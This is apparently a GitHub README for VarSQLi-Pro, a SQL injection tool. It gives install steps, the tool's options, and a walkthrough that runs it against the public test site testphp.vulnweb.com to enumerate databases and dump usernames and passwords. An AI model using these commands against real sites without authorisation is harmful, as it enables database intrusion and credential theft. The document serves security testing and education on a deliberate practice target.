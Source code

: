 # Variable SQL Injection Pro
VarSQLi-Pro or Variable SQL Injection Pro - is an upgraded version of VarSQL, a tool designed to detect and exploit SQL Injection vulnerabilities in web applications. SQL Injection is a common security vulnerability in web applications that allows attackers to perform malicious actions and gain unauthorized access to databases.

> VarSQLi-Pro is designed to assist security professionals and those interested in web application security testing in identifying and exploiting SQL Injection vulnerabilities. The tool automatically scans and searches for weaknesses in web applications, and provides users with options to execute SQL Injection attacks and test the security of the system.
### Screenshot
<img src="https://raw.githubusercontent.com/Phamchie/varsqli-pro/main/Img/Screenshot_2023-08-04-15-49-15-17.jpg">

However, it is important to use this tool responsibly and within legal boundaries. Unauthorized access to databases or conducting attacks without proper authorization is illegal and unethical. The use of this tool should only be for educational, research, and improving the security of web applications.

> When using VarSQLi-Pro or any other security testing tool, always adhere to rules and regulations. Protecting personal information and ensuring security is our responsibility and should be ensured in all online activities.

>> Always strive to learn and understand security concepts to effectively protect web applications and databases.

## Setup And install 
- Step 1: Open a terminal or command prompt on your computer.

- Step 2: Navigate to the folder where you want to store the VarSQLi-Pro source code.

- Step 3: Run the following command to clone the source code from the Git repository:
`git clone https://github.com/Phamchie/varsqli-pro`

- Step 4: After the copying is complete, move to the newly created VarSQLi-Pro folder:
`cd VarSQLi-Pro`

- Step 5: Install the dependent libraries by running the following command:
`pip install -r requirements.txt`

- Step 6: After successful installation, you can run VarSQLi-Pro with the command:
`python3 varsqli.py`
```
git clone https://github.com/Phamchie/varsqli-pro
cd varsqli-pro
pyton3 setup.py
python3 varsqli.py --help
```
- Note: Make sure that you have the right to access and use this tool for its lawful purposes. Using this tool unethically or in violation of the law can have serious consequences. Please always follow the cybersecurity rules and regulations and use this tool responsibly
### How To Used ?
- To use this tool first, I will introduce the tool modes
```
options:
  -h, --help         show this help message and exit
  -u URL, --url URL  URL Target ( e.g : https://test.com?path_vuln.php?id=1)
  --dbs              Enumerate DBMS databases
  --tables           Enumerate DBMS database tables
  --columns          Enumerate DBMS database table columns
  -D DB              DBMS database to enumerate
  --dump-all         Dump All DBMS database table columns
  -T TB              Enumerate database to enumerate tables ( ex : --dump-all -T < tables name > -C < columns name >)
  -C CO              Enumerate database to enumerate columns ( ex : --dump-all -T < tables name > -C < columns name >)
```
 - after thoroughly learning about the modes, to exploit SQL Injection on a certain SQL database error website, you use this command to extract the database name

```
$ python3 varsqli.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs
```
<img src="https://raw.githubusercontent.com/Phamchie/varsqli-pro/main/Img/Screenshot_2023-08-04-16-10-49-93.jpg">
<img src="https://raw.githubusercontent.com/Phamchie/varsqli-pro/main/Img/Screenshot_2023-08-04-16-14-14-40.jpg">

- After we have extracted and obtained the name of the database, you use options `--tables -D <database name>` , this is the command, extract all databases  In the tables section, the command:

```
$ python3 varsqli.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 --tables -D acuart
```
<img src="https://raw.githubusercontent.com/Phamchie/varsqli-pro/main/Img/Screenshot_2023-08-04-16-29-35-14.jpg">

- well , you can see , too got the database name in Tables , okay , next , you guys and I get the database name in columns , we use options as `-  -columns -D <database name>` , and here is the command below
```
$ python3 varsqli.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 --columns -D acuart
```
<img src="https://raw.githubusercontent.com/Phamchie/varsqli-pro/main/Img/Screenshot_2023-08-04-17-00-16-21.jpg">

- after i see it says find the number of columns entries of the whole database , so tables Users have some columns like : `id` , `cart` , `pass` , `uname` , now I will dump it , to dump the database  , we use options `-D <database name> --dump-all -T <tables item name> -C <column item name>`, command:
```
python3 varsqli.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --dump-all -T users -C pass,uname
```
- this command I will dump the `password` and `uname` to get the username and password
- here is the result, password and user are test and test
<img src="https://raw.githubusercontent.com/Phamchie/varsqli-pro/main/Img/Screenshot_2023-08-04-17-07-59-22.jpg">

### ending
- Remember, using VarSQLi-Pro or any similar tool for illegal activities can result in severe legal consequences, including imprisonment. It is crucial to prioritize ethical hacking practices, collaborate with security professionals, and comply with relevant laws and regulations to ensure responsible and lawful use of such tools.
